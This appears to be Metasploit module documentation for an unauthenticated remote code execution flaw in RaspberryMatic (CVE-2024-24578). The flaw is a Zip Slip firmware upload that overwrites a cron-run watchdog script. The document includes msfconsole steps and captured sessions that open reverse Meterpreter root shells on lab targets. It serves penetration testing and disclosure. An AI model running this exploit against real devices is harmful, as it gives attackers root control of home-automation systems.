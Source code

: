 ## Vulnerable Application
RaspberryMatic / OCCU contains a unauthenticated remote code execution (RCE) vulnerability, caused by multiple issues within
the Java based HMIPServer.jar component. The webui allows for Firmware uploads which can be reached through the URL
`/pages/jpages/system/DeviceFirmware/addFirmware`.
This allows an unauthenticated attacker to upload a malicious .tgz archive to the server, which will be automatically
extracted without any further checks. As this entry can contain ../sequences, it is possible to break out of the predefined
temp directory and write files to other locations outside this path.

This vulnerability is commonly known as the Zip Slip vulnerability and can be used to overwrite arbitrary files on the main
filesystem. It is therefore possible to overwrite the watchdog script with a malicious payload in `/usr/local/addons/mediola/bin/`,
which will be executed every five minutes through a cron job where attackers can gain remote code execution as root user,
allowing a full system compromise.

RaspberryMatic versions <= `3.73.9.20240130` are vulnerable.

The following releases were tested.

**RaspberryMatic Releases:**
* RaspberryMatic v3.73.9 (OVA image)
* RaspberryMatic v3.65.8 (Raspberry Pi4 Model B image)

## Installation steps to install RaspberryMatic OVA image
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download [RaspberryMatic OVA](https://github.com/jens-maus/RaspberryMatic/releases/tag/3.73.9.20240130).
* Install the OVA image in your virtualization engine.
* When installed, configure the VM appliance to your needs using the menu options via the `webui`.
* Boot up the VM and should be able to access the RaspberryMatic appliance via the `webui` via `http://your_ip/`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/raspberrymatic_unauth_rce_cve_2024_24578`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options defined.

## Scenarios
### RaspberryMatic OVA appliance - Unix/Linux Command x64 target
```msf
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set FETCH_SRVHOST 192.168.201.8
FETCH_SRVHOST => 192.168.201.8
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.73.9
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Uploading sT2s4fChKUZ.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Sending stage (3045380 bytes) to 192.168.201.6
[*] Restoring original watchdog script.
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:51220) at 2025-01-28 18:00:01 +0000

meterpreter > sysinfo
Computer     : 192.168.201.6
OS           :  (Linux 6.1.74)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/root
meterpreter >
```
### RaspberryMatic Pi4 Model B compute board - Unix/Linux Command aarch64 target
```msf
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set payload cmd/linux/http/aarch64/meterpreter_reverse_tcp
payload => cmd/linux/http/aarch64/meterpreter_reverse_tcp
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.10:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.65.8
[*] Executing Unix/Linux Command for cmd/linux/http/aarch64/meterpreter_reverse_tcp
[*] Uploading 8emVtVt6U.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Restoring original watchdog script.
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.10:40324) at 2025-02-03 17:40:01 +0000
meterpreter > sysinfo
Computer     : 192.168.201.10
OS           :  (Linux 5.15.56)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/root
meterpreter >
```
## Limitations
You have to wait maximum five minutes for a session to allow `cron` to run the malicious watchdog script
containing the payload. Just be patient and wait for the magic to happen ;-)
Another limitation is that the root filesystem on RaspberyMatic image is mounted read-only, so you need to set the
option `FETCH_WRITABLE_DIR` to `/tmp` (this is mounted RW) otherwise the exploit will fail.

